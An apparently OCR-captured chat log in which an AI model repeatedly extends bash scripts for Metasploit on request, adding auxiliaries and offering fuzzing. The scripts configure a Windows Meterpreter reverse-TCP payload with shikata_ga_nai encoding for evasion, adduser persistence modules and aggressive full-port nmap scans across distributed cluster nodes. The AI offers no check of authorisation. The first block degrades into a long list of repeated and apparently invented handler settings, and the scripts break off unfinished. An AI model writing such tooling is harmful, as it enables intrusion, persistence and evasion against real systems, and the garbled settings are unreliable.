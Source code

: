 ```bash
      METASPLOIT_ARGS="set PAYLOAD $METASPLOIT_PAYLOAD; set LHOST <local_ip>; set LPORT <local_port>; set ExitOnSession false; set AutoRunScript <path_to_script>; use $handler; setg PAYLOAD $METASPLOIT_PAYLOAD; setg LHOST <local_ip>; setg LPORT <local_port>; setg AutoRunScript <path_to_script>; setg EnableStageEncoding true; setg StageEncoder x86/shikata_ga_nai; setg StageEncoderSaveRegisters ebx,esi,edi; setg EXITFUNC thread; setg EXIT_ON_SESSION false; setg AutoRunScript $persistence; setg AutoSystemInfo true; setg AutoLoadStdapi true; setg DisablePayloadHandler true; setg SessionCommunicationTimeout 86400; setg SessionRetryTotal 600; setg SessionRetryWait 10; setg SessionExpirationTimeout 86400; setg SessionCommunicationTimeout 86400; setg SESSION_SPLIT true; setg SessionTransportTimeout 86400; setg ListenerThreads 32; setg ListenerQueueSize 256; setg HandlerThreads 32; setg HandlerLimit 0; setg HandlerLifetime 0; setg ExitOnSession false; setg AutoVerifySession false; setg AutoVerifySessionTimeout 5; setg AutoVerifySessionRetry 1; setg AutoVerifySessionCleanup true; setg AutoVerifySessionCommunicate true; setg AutoVerifySessionIgnoreArch false; setg AutoVerifySessionIgnorePayload false; setg AutoVerifySessionIgnoreFailure false; setg AutoVerifySessionSkipPayloads []; setg AutoVerifySessionSkipArchs []; setg AutoVerifySessionSkipPlatforms []; setg AutoVerifySessionSkipKernelVersions []; setg AutoVerifySessionSkipNopsleds []; setg AutoVerifySessionSkipCheckUptime false; setg AutoVerifySessionSkipCheckPrivs false; setg AutoVerifySessionSkipCheckModules false; setg AutoVerifySessionSkipCheckOS false; setg AutoVerifySessionSkipCheckExploits false; setg AutoVerifySessionSkipCheckAuxiliary false; setg AutoVerifySessionSkipCheck
      
      
      
      add auxiliars 
      
      
      Sure, here's an updated script that includes the use of auxiliaries:

```bash
#!/bin/bash

# Define variables
METASPLOIT_HANDLERS=("exploit/multi/handler" "exploit/windows/local/persistence" "exploit/linux/local/persistence")
METASPLOIT_PAYLOAD="windows/meterpreter/reverse_tcp"
METASPLOIT_LISTENERS=("windows" "linux")
METASPLOIT_PERSISTENCE=("windows/adduser" "linux/adduser")
METASPLOIT_AUXILIARIES=("admin/http/tomcat_administration" "auxiliary/scanner/http/robots_txt" "auxiliary/scanner/http/webdav_scanner")
LOGFILE="scan.log"
ERRORFILE="scan_errors.log"

# Check for target file
if [ ! -f "$1" ]; then
  echo "Usage: $0 <target_file>"
  exit 1
fi

# set up the supercluster
mpirun -n <number_of_nodes> ssh <username>@<first_node> 'bash -s' < setup_node.sh

# scan targets with nmap and import results into Metasploit
msfconsole -q -x "db_nmap -iL $1 -sS -sU -T4 -A -O -p- --script all --min-hostgroup 96 --min-parallelism 96; exit"

# distribute target list across nodes and execute handlers and auxiliaries
for handler



Add fuzing


Sure, here's an updated script that includes fuzzing:

```